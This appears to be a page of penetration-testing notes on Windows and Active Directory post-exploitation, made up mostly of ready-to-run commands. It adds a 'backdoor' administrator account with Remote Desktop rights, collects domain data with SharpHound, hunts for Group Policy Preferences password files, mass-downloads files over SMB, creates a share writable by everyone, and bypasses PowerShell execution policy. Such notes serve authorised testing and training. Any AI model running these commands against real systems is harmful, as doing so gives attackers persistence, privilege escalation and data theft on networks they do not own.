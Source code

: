 ```bash
net user /add backdoor Password123
net localgroup administrators /add backdoor
net localgroup "Remote Desktop Users" backdoor /add
net localgroup "Remote Desktop Users" backdoor /add

# RDP In & Allow Clipboard Sharing
xfreerdp /v:web02 /u:backdoor /p:Password123 +x clipboard /cert:ignore
```

#### Collecting Data for Bloodhound on Windows

We're using the SharpHound.ps1 from GitHub.
```bash
> . .\SharpHound.ps1
> Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName outfile.zip
```

#### Check for GPP Vulnerability

Say that you have a shell in MetaSploit, you can background that shell and run the "smb_enum_gpp" module to check if there is the GPP vulnerability in the environment.

Search in \\web02.medtech.com\sysvol\medtech.com\policies\*.xml, C:\ProgramData\Microsoft\Group Policy\history, C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history for these files: Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, Drives.xml

#### Recursively Downloading Files with SMB

```bash
> prompt off
> recurse on
> mget *
```

#### Create a Share

```bash
> net share public=c:\\users\\public /GRANT:Everyone,FULL
```

#### NTLM v NTLMv2

NTLM hashes can be passed, NTLMv2 hashes CANNOT be passed. You must crack them. If you're on a machine without knowing their password, using responder is a great idea.


#### Execution Policy Bypass - Per User Basis

```bash
# Get the current execution policy for your current user
Get-ExecutionPolicy -Scope CurrentUser

# Attempt the modify the execution policy
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

# Assure that the policy was changed
Get-ExecutionPolicy -Scope CurrentUser
```
